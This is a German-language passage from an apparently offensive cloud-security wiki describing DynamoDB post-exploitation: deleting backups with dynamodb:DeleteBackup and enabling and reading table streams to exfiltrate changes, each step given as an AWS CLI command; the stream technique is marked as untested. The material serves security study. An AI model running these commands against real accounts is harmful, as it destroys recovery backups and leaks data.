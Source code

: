 ### `dynamodb:DeleteBackup`

Ein Angreifer mit dieser Berechtigung kann **ein DynamoDB-Backup löschen, was im Falle eines Notfallwiederherstellungsszenarios zu Datenverlust führen kann**.
```bash
aws dynamodb delete-backup \
--backup-arn arn:aws:dynamodb:<region>:<account-id>:table/TargetTable/backup/BACKUP_ID \
--region <region>
```
**Potentieller Einfluss**: Datenverlust und Unfähigkeit, sich während eines Notfallwiederherstellungsszenarios von einem Backup zu erholen.

### `dynamodb:StreamSpecification`, `dynamodb:UpdateTable`, `dynamodb:DescribeStream`, `dynamodb:GetShardIterator`, `dynamodb:GetRecords`

{% hint style="info" %}
TODO: Testen, ob dies tatsächlich funktioniert
{% endhint %}

Ein Angreifer mit diesen Berechtigungen kann **einen Stream auf einer DynamoDB-Tabelle aktivieren, die Tabelle aktualisieren, um Änderungen zu streamen, und dann auf den Stream zugreifen, um Änderungen an der Tabelle in Echtzeit zu überwachen**. Dies ermöglicht es dem Angreifer, Datenänderungen zu überwachen und zu exfiltrieren, was potenziell zu Datenlecks führen kann.

1. Einen Stream auf einer DynamoDB-Tabelle aktivieren:
```bash
bashCopy codeaws dynamodb update-table \
--table-name TargetTable \
--stream-specification StreamEnabled=true,StreamViewType=NEW_AND_OLD_IMAGES \
--region <region>
```
2. Beschreiben Sie den Stream, um die ARN und andere Details zu erhalten:
```bash
bashCopy codeaws dynamodb describe-stream \
--table-name TargetTable \
--region <region>
```
3. Abrufen des Shard-Iterators mithilfe der Stream-ARN:
```bash
bashCopy codeaws dynamodbstreams get-shard-iterator \
--stream-arn <stream_arn> \
--shard-id <shard_id> \
--shard-iterator-type LATEST \
--region <region>
```
4. Verwenden Sie den Shard Iterator, um auf Daten aus dem Stream zuzugreifen und diese zu exfiltrieren:
```bash
bashCopy codeaws dynamodbstreams get-records \
--shard-iterator <shard_iterator> \
--region <region>
```
**Potentieller Einfluss**: Echtzeitüberwachung und Datenleck der Änderungen der DynamoDB-Tabelle.
